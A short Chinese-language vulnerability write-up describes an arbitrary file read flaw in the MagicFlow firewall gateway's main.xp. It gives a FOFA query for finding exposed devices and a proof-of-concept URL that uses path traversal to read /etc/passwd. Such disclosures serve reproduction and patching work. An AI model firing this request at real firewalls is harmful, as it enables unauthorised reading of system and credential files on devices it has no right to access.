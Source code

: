 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

<a-checkbox checked>MagicFlow 防火墙网关</a-checkbox></br>

## FOFA

<a-checkbox checked>app="MSA/1.0"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210609181301702.png)



构造POC



```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210609182245927.png)